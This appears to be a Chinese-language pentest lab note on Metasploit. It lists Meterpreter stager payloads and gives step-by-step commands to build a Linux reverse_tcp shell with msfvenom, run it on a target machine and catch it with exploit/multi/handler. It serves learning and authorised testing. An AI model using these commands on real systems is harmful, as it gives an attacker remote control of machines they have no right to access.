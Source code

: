 
---

## MSF 实验笔记

### Payload

#### Stager中几种常见的payload
```
windows/meterpreter/bind_tcp       #正向连接
windows/meterpreter/reverse_tcp    #反向连接，常用
windows/meterpreter/reverse_http   #通过监听80端口反向连接
windows/meterpreter/reverse_https  #通过监听443端口反向连接
```

### reverse_tcp  
> 基于TCP的反向链接shell。

  1. linux
       1.  CLI下生成payload
       ```shell
      msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.91.129 lport=4444  -f elf -o shell.elf
      ```
      2. 或者在MSF下生成一个shell
        ```         use payload/linux/x86/meterpreter/reverse_tcp 设置Option
         set lhost 自己ip
         set lport 自己端口
         generate -f elf -o /shell.elf     # -o出文件到指定目录
        ```
      3. 在目标靶机上执行文件
        ```
        chmod 777 shell.elf
        ./shell.elf
        ```
      4. msf下开启`handler`监听.
        ```
        msf  >  use exploit/multi/handler
        msf  >  set payload linux/x86/meterpreter/reverse_tcp #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run
        ```